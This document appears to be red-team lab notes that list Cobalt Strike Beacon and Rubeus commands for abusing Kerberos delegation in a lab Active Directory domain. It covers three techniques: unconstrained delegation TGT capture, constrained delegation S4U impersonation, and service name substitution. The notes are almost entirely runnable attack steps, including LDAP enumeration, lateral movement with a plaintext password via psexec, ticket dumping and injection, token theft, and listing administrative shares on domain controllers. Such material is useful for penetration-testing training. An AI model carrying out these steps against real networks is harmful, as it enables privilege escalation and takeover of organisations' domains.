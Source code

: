 
### Unconstrained Delegation
- Use LDAP to find computers configured for unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb

-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  Wait 1-2 minutes for the TGT of a domain administrator to be captured.
    
-  Stop Rubeus.
    
    1. jobs
    2. jobkill 0

-  Inject the captured TGT into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:[TICKET]`
    
-  Impersonate the spawned process.
    
    1. steal_token [PID]
-  Verify the ticket is present.
    
    1. run klist
-  Use it to access _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$
-  Drop the impersonation.
    
    1. rev2self
-  Terminate the spawned process.
    
    1. kill [PID]

### Constrained Delegation
- Search for computers whose msDS-AllowedToDelegateTo attribute is not null.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo`
    
-  Get the UAC value for _lon-ws-1_ to see if the **TRUSTED_TO_AUTH_FOR_DELEGATION** flag is set.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl`
    
    TerminalTypeCopy
    
    `[Convert]::ToBoolean(16781312 -band 16777216)`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Dump _lon-ws-1_'s TGT.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap`
    
-  Perform the S4U abuse to obtain a usable service ticket for _cifs/lon-fs-1_, impersonating the default domain admin.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:[TGT] /impersonateuser:Administrator /nowrap`
    
-  Inject the ticket into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket has been injected.
    
    1. run klist
-  Use the ticket to access _lon-fs-1_.
    
    1. ls \\lon-fs-1\c$

### Service Name Substitution
- Search for computers whose msDS-AllowedToDelegateTo attribute is not null.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo`
    
-  Get the UAC value for _lon-ws-1_ to see if the **TRUSTED_TO_AUTH_FOR_DELEGATION** flag is set.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Dump the TGT for _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap`
    
-  Perform the S4U abuse to obtain a usable service ticket for _time/lon-dc-1_, substituting the service name for _cifs_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1 /altservice:cifs /ticket:[TGT] /impersonateuser:Administrator /nowrap`
    
-  Inject the ticket into a sacraficial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket has been injected.
    
    1. run klist
-  Use the ticket to list the C$ share on _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$